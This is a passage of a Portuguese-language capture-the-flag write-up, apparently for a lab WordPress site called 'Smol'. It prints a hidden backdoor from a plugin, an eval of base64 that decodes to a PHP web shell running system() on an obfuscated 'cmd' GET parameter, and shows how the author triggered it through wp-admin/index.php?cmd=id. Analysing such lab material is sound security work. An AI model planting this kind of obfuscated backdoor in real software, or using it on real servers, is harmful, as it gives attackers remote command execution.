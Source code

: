 A seguinte linha de código me chamou a atenção... me parece um base64 e esse base64 é executado como código php.

```javascript

eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```

Agora, vou decodificar esse base64.

```bash
┌──(kali㉿kali)-[~/smol]
└─$ echo "CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA=" | base64 -d

 if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }                                                                              
┌──(kali㉿kali)-[~/smol]
└─$ 

```

Me parece um parâmetro que permite a execução de comandos no servidor. No parâmetro, os dois primeiros estão em octal e o terceiro em hexadecimal.

\143 de octal para string: c
\155 de octal para string: m
\x64 de hexa para string: d

Eu tenho que usar uma página que chame esse plugin, sendo assim, vou tentar com a */wp-admin/index.php*

Sendo assim, a url fica http://www.smol.thm/wp-admin/index.php?cmd=id


![image](./images/Screenshot_2025-10-18_09_03_31.png)

